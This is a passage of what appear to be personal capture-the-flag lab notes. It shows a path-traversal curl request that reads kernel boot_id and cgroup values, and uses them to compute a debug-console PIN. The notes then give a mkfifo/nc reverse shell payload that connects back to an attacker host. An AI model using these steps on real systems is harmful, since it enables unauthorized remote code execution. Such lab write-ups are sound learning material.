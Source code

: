 ![[Pasted image 20240331105222.png]]
In decimal is *2485377892360*

**Machine ID**
We use `/proc/sys/kernel/random/boot_id`
`curl http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id --path-as-is --ignore-content-length` *ignore content length since by default the response expects to show the same number of characters that flag content-length shows*

In **burpsuite**
![[Pasted image 20240331105721.png]]
>7aebcab0-a7e9-4dbd-8ae9-b027b581bac6

**Proc self group**
`/proc/self/cgroup`
![[Pasted image 20240331105836.png]]

>a98babd3fa226e2d5a753a47d7ae2bb1e3e8ad08d1d45eb17016a4e655806a09

adding it to machineid value
>7aebcab0-a7e9-4dbd-8ae9-b027b581bac6a98babd3fa226e2d5a753a47d7ae2bb1e3e8ad08d1d45eb17016a4e655806a09

![[Pasted image 20240331110416.png]]

Executing this code in python3, we will get a pin:
`python3 pinbypass.py`
>180-140-158

Now we can have access to the console.
**Note:** If it's not working, we can change the hashing used from *md5* to *sha1* or vise versa, depending is the version o the web server.
![[Pasted image 20240331110639.png]]
### Reverse shell in console
#### Testing the console
We can import os and execute commands directly
![[Pasted image 20240331110745.png]]

`os.popen("whoami").read().strip()`

#### Executing reverse shell
We use the same reverse shell used before with nc and sh
payload:
`os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.70 1234 >/tmp/f").read().strip()`
![[Pasted image 20240331111008.png]]
Listening in 1234 port we get the shell
`attaker$nc -lnvp 1234`

# Looking into internal ressources
